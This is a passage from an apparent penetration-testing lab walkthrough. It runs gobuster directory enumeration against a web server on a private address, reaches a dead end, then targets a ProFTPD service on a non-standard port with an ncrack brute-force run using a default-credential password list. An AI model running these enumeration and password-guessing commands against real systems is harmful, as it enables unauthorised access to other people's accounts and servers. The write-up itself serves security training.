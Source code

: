 ```bash
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.php            (Status: 200) [Size: 1388]
/javascript           (Status: 301) [Size: 319] [--> http://172.16.37.220/javascript/]
/server-status        (Status: 403) [Size: 301]                                       
                                                                                      
===============================================================
2021/08/19 22:42:47 Finished
===============================================================
```

/javascript shows we don't have any permission. however let's enum dir their and see if any interesting dir:

```bash
└─$ gobuster dir -u http://172.16.37.220/javascript/  -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/jquery               (Status: 301) [Size: 326] [--> http://172.16.37.220/javascript/jquery/]
```

Same thing also Forbidden let's dir enum as well, inside of it another /jquery and there, we find jQuery lib code. and that's the end of the rabbit hole.

we are stuck let' move to the next target



### Second Target (ProFTPD + Apache httpd):

#### target:

```bash
172.16.37.234
40121/tcp open ftp ProFTPD 1.3.0a
40180/tcp open http Apache httpd 2.4.18 ((Ubuntu))
```

let's start with ftp (try to crack it using ncrack but it's in non-standard port):

```bash
└─$ locate  ncrack | grep "ncrack-services"
/usr/share/ncrack/ncrack-services
                                                                                                                                                                        

└─$ sudo mousepad /usr/share/ncrack/ncrack-services 

change ftp from 21 to 40121

then crack with:

└─$ sudo ncrack -vv --user users.usr -P /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt  172.16.37.234:40121  

```
